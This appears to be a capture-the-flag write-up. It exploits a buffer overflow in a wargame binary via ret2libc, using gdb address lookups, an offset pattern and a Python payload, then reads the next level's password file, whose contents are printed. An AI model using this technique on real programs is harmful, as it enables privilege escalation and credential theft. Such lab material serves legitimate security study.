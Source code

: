 gdb:
	> b main
	> r
	> info proc map
<<< Start Addr   End Addr       Size     Offset objfile
<<< ...
<<< 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
<<< ...
	> p system
<<< $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
	> p exit
<<< $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
	> c
### https://wiremask.eu/tools/buffer-overflow-pattern-generator/
	> r < <(python -c "print 'dat_wil\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")
<<< Program received signal SIGSEGV, Segmentation fault.
0x41306141 in ?? ()
Overflow at offset 80

exit gdb

bash:
	> strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
<<< 15d7ec /bin/sh

### "/bin/sh" = 0xf7e2c000 + 15d7ec = F7F897EC

	> python -c "print 'dat_wil\n' + 'A'*80 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload01
	> cat /tmp/payload01 - | ./level01
	> cat /home/users/level02/.pass
<<< PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv